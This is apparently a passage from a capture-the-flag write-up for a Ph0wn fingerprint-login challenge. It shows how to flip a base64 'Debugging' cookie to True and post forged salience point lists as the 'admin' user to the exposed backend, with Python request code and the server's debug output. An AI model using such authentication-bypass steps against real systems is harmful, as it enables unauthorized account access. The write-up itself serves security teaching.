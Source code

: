 This looks like (**and indeed is**) the code of the main page of the website. We notice that:

- When the form is submitted, the endpoint is `http://server:1234`
- The payload is made of a username and a json file containing an object called `saliences` that is computed by the fuction `getSaliency`
- The function `getSaliency` looks a  bit complicated.  But what we notice **(what I wished you had noticed ;))** is that:
    - is taking an object called `fingerprint` (this is the image provided)
    - no matter how this `fingerprint` is manipulated, the function is returning a list of pairs `saliencies.append([row,col])`
- The request is attaching cookies

Ok let's start digging into it:
- If we visit `http://challenges.ph0wn.org:1234/` we see that the backend is indeed exposed. **You should have noticed that you can directly submit your payloads without going through the `getSaliency` function.** And since we understood that `getSaliency` only returns a list of pairs like `[[x,y], ..... [x,y]]` we can try to submit a random list as fingerprint of  the `admin` user and see what happens.
- If we check cookies, the webpage is asking us to set this cookie: `RGVidWdnaW5n=RmFsc2U=`. == in the string...  this looks again a base64 string. If we decode it we get: `Debugging=False`.  Well maybe it's the case of turning on that Debugging function attaching a cookie like: `RGVidWdnaW5n=VHJ1ZQ==`. 

Let's write down some code:

```python
url = "http://challenges.ph0wn.org:1234"
username = 'admin'
cookies={'RGVidWdnaW5n':'VHJ1ZQ=='}
req = requests.post(url=url,json={"username":username,"fingerprint":[[1,1],[1,1]]},cookies=cookies)

```

When submitting the code, we get this answer: `Login Failed! You need 45 salient points`. This is interesting. Well, let's then tune the code and provide the right number of points.

```python
url = "http://challenges.ph0wn.org:1234"
username = 'admin'
saliencies1 = []
cookies={'RGVidWdnaW5n':'VHJ1ZQ=='}
req = requests.post(url=url,json={"username":username,"fingerprint":[[1,1],[1,1]]},cookies=cookies)
try:
    howMany = int(re.search('need\ ([0-9]+)',req.text).group(1))
    for salience in range(howMany):
        saliencies1.append([random.randint(0,500),random.randint(0,500)])
    req = requests.post(url=url,json={"username":username,"fingerprint":saliencies1},cookies=cookies)

```

Answer is:

```
Login Failed 381.41840542899865;263.6512848442048;304.90162347878703;206.65188119153427;161.69724796668618;102.45974819410792;301.42494919963076;123.36936410632909;295.6010825419961;401.10347792059844;398.5398348973412;107.16809226630845;402.5232912515747;346.44624402640017;304.2137406495637;313.04951684997053;216.8155898453799;137.87313008704777;132.6386067478093;426.0187789288167;179.0111728356641;113.07077429645558;419.17299531339086;160.0656115472652;172.9566419655516;126.60568707605516;116.84177335182824;263.40273347101015;339.09438214160963;247.49343425634547;337.52185114448514;210.2974084481309;347.5399257639329;252.53910588263355;266.6027006614899;186.90371852908652;99.40321926376429;73.87827826905551;442.10858394742803;273.97992627198073;178.1937148162078;48.25971404805462;301.95529470436514;16.15549442140351;329.56486463213884;250.185930859431;
```
